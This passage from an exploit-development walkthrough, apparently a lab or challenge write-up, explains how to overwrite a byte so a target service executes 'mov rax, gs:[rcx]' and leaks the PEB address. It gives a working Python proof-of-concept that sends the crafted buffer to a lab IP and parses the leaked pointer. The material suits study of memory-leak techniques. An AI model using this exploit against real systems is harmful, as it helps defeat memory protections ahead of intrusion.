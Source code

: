 Recall that we have the ability to control RCX at this time! This is ideal, because we can use our ability to control RCX to load the value of `0x0000000000000060` into it - and access the GS segment register at this offset!

After some research, it seems as though the bytes `\x65\x48\x8b\x01` are used to create the instruction `mov rax, qword ptr gs:[rcx]`. This means we need to replace the `\x41` byte that caused our access violation with a `\x65` byte! Firstly, however, we need to identify where this byte is within our proof of concept.

Updating our proof of concept, we found that the byte we need to replace with `\x65` is at an offset of 512 into our 528 byte buffer. Additionally, the bytes that control the value of RCX seem to come right after said byte! This was all found through trial and error.

```python
import sys
import os
import socket
import struct
import time

# Defining sleep shorthand
sleep = time.sleep

# 16 total bytes
print "[+] Sending the header..."
exploit = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 bytes + 16 byte header = 528 total bytes

# 512 byte offset to the byte we control
exploit += "\x41" * 512

# The GS segment register gives us access to the PEB at an offset of 0x60
exploit += "\x65"

# \x60 will be moved in gs:[rcx] (\x41's are padding)
exploit += "\x41\x41\x41\x41\x41\x41\x41\x60"

# Must be a multiple of 8 - so null bytes to compensate for the other 7 bytes
exploit += "\x00\x00\x00\x00\x00\x00\x00"

# Message needs to be 528 bytes total
exploit += "\x41" * (544-len(exploit))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit)

# Indexing the response to view RAX (PEB)
receive = s.recv(1024)
peb_unpack = struct.unpack_from('<Q', receive)
peb_addr = peb_unpack[0]

print "[+] PEB is located at: {0}".format(hex(peb_addr))

# Closing the connection
s.close()
```
